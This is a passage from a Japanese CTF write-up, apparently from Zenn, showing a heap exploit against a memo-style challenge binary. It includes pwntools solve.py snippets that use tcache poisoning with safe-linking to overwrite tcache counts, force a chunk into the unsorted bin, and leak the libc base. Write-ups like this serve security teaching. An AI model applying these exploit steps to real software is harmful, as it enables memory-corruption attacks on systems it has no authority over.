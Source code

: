 後でCをunsorted binに繋いでC.fdを読み出すのだが、この部分があるためにdelete(2)でCをunsorted binに繋ぐとCのアドレスが失われてしまう。そのため、上ではtcache-poisoningによってmemos[4]にCのアドレスを保存している。delete(2)でmemos[2]がNULLで上書きされても、memos[4]にCのアドレスが入っているのでC.fdを読み出すことができる。
次にcountsを書き変える。tcacheは上で見た通りheap baseの位置にあり、かつ今heap baseは既知なのでtcache-poisoningによりtcaacheを書き変えることができる、
```python: solve.py
# tcache(0x90): B -> A
delete(0)
delete(1)

# tcahce(0x90): B -> &tcache
update(-1, pack(((chunkB + 0x10)>>12) ^ heap_base) + b'\n')

# overwrite counts[7] with 7
create(1)
create(0)
update(0, pack(0) + pack(0x291) + pack(0x0) + pack(0x7000000000000))

delete(2)
l.address = unpack(read(4).rstrip().ljust(8, b'\0')) - 0x219ce0
log.info('libc_base = %#016lx'%(l.address))
```
実際、上のdelete(1)を実行すると、heapは以下のようになる。tcache(0x90)には2つのエントリがあるので、counts[7]は2になっている。(tcacheは0x20から0x10刻みなので、0x70のindexは(0x70-0x20)/0x10=7になる)

![2](https://storage.googleapis.com/zenn-user-upload/e0679aa96d17-20230604.png)

その後のupdateを実行するとheap以下のようになる。tcahce-poisoningが成功し、tcacheにtcacheのアドレスが入っていることが分かる。

![3](https://storage.googleapis.com/zenn-user-upload/2666cea0f3b5-20230604.png)

この状態で2回createを呼べば、2回目のcreateでtcacheのアドレスが返される。実際、上のcreate(0)のmalloc実行直後まで進めると以下のようになり、tcacheのアドレスが得られていることが分かる。

![4](https://storage.googleapis.com/zenn-user-upload/73a3654389bd-20230604.png)

次のupdateを実行するとheapは以下のようになる。counts[7]がtcacheの最大エントリ数である7に書き変わっていることが確認できる。

![5](https://storage.googleapis.com/zenn-user-upload/8fa17a20e022-20230604.png)

この状態でCをfreeすると、tcache(0x90)が満杯だと判断されるため、Cがunsorted binに入る。実際、上のdelete(2)を実行するとheapは以下のようになる。

![6](https://storage.googleapis.com/zenn-user-upload/9065bec5f0d8-20230604.png)

後はC.fdを読み出せばよい。delete(2)によってmemos[2]はNULLで上書きされるが、最初にmemos[4]にCのアドレスを保存していたので、read(4)を実行すればC.fdが読み出せる。
C.fdとlibc baseとのoffsetを計算すると0x219ce0だったので、これを引けばlibc baseが取得できる。
最後に以下のようにしてcounts[7]を0にし、また上でunsorted binにいれたCを取り返しておく。
```python: solve.py
# overwrite counts[7] with 0
update(0, pack(0) + pack(0x291) + pack(0x0) + pack(0))
create(0)
```
これを実行するとheapは以下のようになり、tcache(0x90), unsorted binが空になる。
![7](https://storage.googleapis.com/zenn-user-upload/7e36f3f86102-20230604.png)


[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34